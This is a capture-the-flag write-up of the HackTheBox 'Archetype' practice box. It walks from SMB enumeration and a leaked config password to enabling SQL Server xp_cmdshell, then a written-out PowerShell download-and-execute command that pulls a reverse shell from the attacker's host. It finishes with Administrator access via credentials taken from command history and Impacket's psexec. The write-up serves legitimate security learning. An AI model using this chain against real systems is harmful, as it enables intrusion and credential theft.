# Archetype
This is the first box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

**Tools: nmap, smbclient, netcat, Impacket's mssqlclient.py and psexec.py.**

We begin with a scan using nmap (this machine’s IP is 10.10.10.27):
> nmap -n -sC -sV -Pn -T4 10.10.10.27

Or for a more complete scan:
> nmap -n -sC -sV -p- -Pn 10.10.10.27



The result shows a few open ports, the most promising being 445 (smb) and 1433 (sql server).  
Next up, we try to enumerate the smb with smbclient to look for shared folders:
> smbclient -L \\10.10.10.27 -N



There is a ‘backups’ share, and upon accessing it, we see a file called ‘prod.dtsConfig’, then we simply download it:
> smbclient -N //10.10.10.27/backups  
> dir  
>  get prod.dtsConfig  



Now we can read the file:
> cat prod.dtsConfig



This is a config file from the SQL Server, and we can see that there is a Password and an User field. We can use this to connect to the SQL Server, and for this we’ll be using the mssqlclient.py script from the Impacket toolkit. Now this is the part where I ran into some issues with this script, so I had to do the following procedure to get it to work.  

Install pip for python3:
> sudo apt install python3-venv python3-pip

Git clone impacket, better do it to at /opt to keep it organized:
> sudo git clone https://github.com/SecureAuthCorp/impacket.git

Go inside the impacket folder (cd impacket) and run:
> pip3 install .

Next, we go to the ‘examples’ folder, where the script is, and run the following command to log into the SQL Server:
> python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

We insert the password found previously and we’re in.  
Next up, we run a query to find out if we have the highest privileges:
> SELECT IS_SRVROLEMEMBER (‘sysadmin’)

The answer should be 1 (= true), confirming that we have sysadmin privileges.



Now we can enable the xp_cmdshell (“Spawns a Windows command shell and passes in a string for execution”) to gain Remote Command Execution (RCE):
> EXEC sp_configure ‘Show Advanced Options’, 1;  
> reconfigure;  
> sp_configure;  
> EXEC sp_configure ‘xp_cmdshell’, 1  
> reconfigure;  
> xp_cmdshell “whoami” (run commands to test, like ‘whoami’ or ‘hostname’)  



In order to get a ‘real’ shell, we can try a reverse shell. Below, is the powershell reverse shell that we’ll be using. You can find more reverse shells at [**RevShells.com**](https://www.revshells.com/) and customize it with your current IP address, port, and other options) — my IP was 10.10.15.29, and we’re using port 443 (keep in mind that it’s an one-liner command) - I had to take a screenshot of the code because some AVs were blocking this page (also the Revshells website), but at revshells.com select Reverse > Powershell #2 and set the IP/port:



We save it to a *‘revshell.ps1’* file in our VM.  
Then we set up a python http server to host the revshell file:
> python -m SimpleHTTPServer 80  
> or  
>  python3 -m http.server 80

Now we can start a netcat listening session on port 443:
> nc -vnlp 443

~ If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:
> ufw allow from 10.10.10.27 proto tcp to any port 80,443

Now in our target machine’s SQL Server, we can run the command to download our revshell file (**one-liner command**):
> xp_cmdshell “powershell “IEX (New-Object Net.WebClient).DownloadString(\”http://10.10.15.29/revshell.ps1");”

And back to our netcat…



We have a shell!  
The user.txt file containing the user flag is at the sql_svc user’s desktop, so we just read the file:



In order to get the root flag, we’ll need to, well, become root (in this ‘Windows case’, Administrator a.k.a ‘nt authority\system’). As this sql_svc account is a service account, it’s good practice to check for recently accessed files / executed commands. To do so in PowerShelll, we can insert the command below in our reverse shell (**one-liner command**):
> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt



And there it is! “Someone” mapped the *‘backups’* share using the administrator credentials.  

Next step is to use another Impacket script, psexec.py (we do so in our VM’s terminal, so we go back to the /opt/impacket/examples folder):
> python3 psexec.py administrator@10.10.10.27

We simply provide the password when asked, and do a quick whoami check:



Now we just need to read the root.txt file at the administrator’s desktop:



**That’s all for now!**  
We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 8 labs of the ‘Starting Point’ path.  
Thanks for reading and keep hacking!  

**Some useful resources to understand the procedures used to root this box:**  

mssqlclient.py troubleshoot  
* https://forum.hackthebox.eu/discussion/3034/starting-point-foothold-mssqlclient-py  

IS_SRVROLEMEMBER (‘sysadmin’)  
* https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?redirectedfrom=MSDN&view=sql-server-ver15  

xp_cmdshell  
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15  
* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server  
* https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/  
* https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
